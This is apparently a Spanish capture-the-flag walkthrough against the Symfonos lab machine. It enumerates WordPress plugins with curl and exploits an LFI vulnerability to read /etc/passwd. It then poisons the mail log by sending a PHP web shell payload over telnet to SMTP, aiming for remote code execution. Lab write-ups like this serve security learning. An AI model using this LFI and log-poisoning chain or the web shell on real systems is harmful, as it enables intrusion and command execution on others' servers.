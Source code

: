 y con este comando vamos a limpiar el ouput para verlo de una mejor manera
```python
❯ curl -H 'Cache-Control: no-cache, no-store' -L -ik -s http://symfonos.local/h3l105/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2 | cut -d "/" -f 7 | sort -u
```

obtenemos dos plugins que parecen ser vulnerables
![[Pasted image 20240617165639.png]]

### searchsploit
encontramos tres exploits para este plugin así que vamos a ejecutarlos para tratar de obtener acceso 
![[Pasted image 20240617170025.png]]

`searchsploit -x php/webapps/40290.txt`
al parecer este plugin es vulnerable a un `LFI (Local File Inclusion)` lo que nos va a permitir leer archivos dentro de la maquina
![[Pasted image 20240617170237.png]]

### LFI (Local File Inclusion)
realizamos una petición a la ruta que nos indica la vulnerabilidad pasando el parámetro `/etc/passwd` logramos leer el archivo por lo que se ha ejecutado con exito el `LFI`

![[Pasted image 20240617170644.png]]

### Log mail poisoning 
debido a que podemos ver `log/` en el directorio `/var/mail/helios` podemos intentar acceder a los mail para intentar envenenar alguno y de esta manera conseguir un `RCE (Remote Code Execusion)`
![[Pasted image 20240617171417.png]]
![[Pasted image 20240617171433.png]]

### telnet 
si enviamos un mail usando telnet luego haciendo un `curl` al directorio `/var/mail/helios` podemos ver esa peticion. pero el codigo que enviamos no se esta mostrando por lo que parece que se esta interpretando

```python
telnet 10.0.2.15 25
Trying 10.0.2.15...
Connected to 10.0.2.15.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM:gleoq@test.com
250 2.1.0 Ok
RCPT TO:helios@symfonos.localdomain
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<?php echo system($_REQUEST['cmd']);?>

.
250 2.0.0 Ok: queued as 4F54440729

```
